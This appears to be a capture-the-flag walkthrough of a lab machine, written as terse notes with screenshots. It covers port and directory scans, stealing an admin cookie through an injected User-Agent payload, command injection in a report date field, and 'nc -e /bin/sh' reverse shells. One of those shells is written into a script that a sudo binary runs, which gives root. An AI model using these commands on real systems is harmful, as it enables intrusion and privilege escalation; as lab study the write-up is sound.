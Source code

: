 **Ping**
![[Pasted image 20240718164529.png]]

Nmap Scans
```
mapit 10.10.11.8
```

Nmap Default Scan
![[Pasted image 20240718164625.png]]

Nmap Script and Service Scan
![[Pasted image 20240718164754.png]]

Nmap All Port Scan
![[Pasted image 20240718165333.png]]

Gobuster Scan
```
gobuster dir -u http://10.10.11.8:5000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,aspx -s 200,204,301,302,307,403 -k --status-codes "" -o gobustet.txt
```

Tried to steal cookies
![[Pasted image 20240718165901.png]]

![[Pasted image 20240718165844.png]]

So I have Added the payload in user agent as well
![[Pasted image 20240718170455.png]]
then Forwarded and got some cookie
![[Pasted image 20240718170523.png]]

I can see that in my web server
![[Pasted image 20240718170548.png]]

Will use this cookie and try to authenticate as legitimate user
Decode base64 hash
![[Pasted image 20240718170703.png]]

Normally I can't access the dashboard
![[Pasted image 20240718170847.png]]

But now we can use the cookie to authenticate
![[Pasted image 20240718170928.png]]
I have changed the new cookie

Will forward and see, it worked.....!
```
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```
![[Pasted image 20240718171102.png]]
Got admin's dashboard, also changed admin cookies via developer tool, So I won't last admin's dashboard.

Will Jump to Initial Foothold.....!

I have generated the report, nothing happened
![[Pasted image 20240718173105.png]]

Will inject something in date filed
```
whoami
```
![[Pasted image 20240718173257.png]]
![[Pasted image 20240718173209.png]]

Will get a reverse shell
```
nc -e /bin/sh 10.10.14.3 4444
```
![[Pasted image 20240718173330.png]]

Got it....!
![[Pasted image 20240718173343.png]]

User.txt
![[Pasted image 20240718173451.png]]



Will Jump to Privilege Escalation.....!

Our Privilege
```
sudo -l
```
![[Pasted image 20240718175904.png]]

Will check that
```
sudo /usr/bin/syscheck
```
![[Pasted image 20240718175935.png]]

Will read the binary
![[Pasted image 20240718180037.png]]
we can edit initdb.sh 

Will add reverse shell script
```
echo "nc -e /bin/sh 10.10.14.3 1234" > ./initdb.sh
```
![[Pasted image 20240718180132.png]]

Change permissions
```
chmod +x initdb.sh 
```
![[Pasted image 20240718180228.png]]

Will run the binary now
```
sudo /usr/bin/syscheck
```
![[Pasted image 20240718180301.png]]

Got shell as root.....!
![[Pasted image 20240718180327.png]]

**Root.txt**
![[Pasted image 20240718180403.png]]

